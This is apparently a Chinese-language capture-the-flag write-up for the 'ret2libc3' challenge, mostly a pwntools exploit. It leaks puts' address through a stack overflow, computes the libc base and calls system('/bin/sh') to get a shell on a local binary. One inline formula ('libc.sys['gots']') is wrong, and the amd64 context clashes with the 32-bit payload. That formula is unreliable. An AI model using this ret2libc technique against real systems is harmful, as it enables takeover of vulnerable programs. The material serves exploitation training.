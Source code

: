 因为puts已经调用过一次，所以此时`puts_got`表存的内容就是`puts`的真实地址

```python
payload = b'A'*112
payload += p32(puts_plt) + p32(main_addr) + p32(puts_got)
sh.recvuntil(b"it !?")
sh.sendline(payload)

puts_addr = u32(sh.recv()[:4]) # 32位ELF，所以切前四位即可
print("puts_addr: ", hex(puts_addr))
```

此时我们可以算出libc的偏移值

`libc_base = puts_addr - libc.sys['gots']`

有了偏移值，system和binsh的地址也就出来了

### EXP1

```python
from pwn import *

context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'

sh = process("./ret2libc3")
elf = ELF("./ret2libc3")
libc = ELF("/usr/lib/i386-linux-gnu/libc-2.31.so")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['_start']

payload = b'A'*112
payload += p32(puts_plt) + p32(main_addr) + p32(puts_got)
sh.recvuntil(b"it !?")
sh.sendline(payload)

puts_addr = u32(sh.recv()[:4])
print("puts_addr: ", hex(puts_addr))

libc_base = puts_addr - libc.sym['puts']
print(hex(libc_base))
sys_addr = libc_base + libc.sym['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

payload2 = b'A'*112
payload2 += p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)
gdb.attach(sh, 'b gets')
sh.sendline(payload2)
sh.interactive()
```
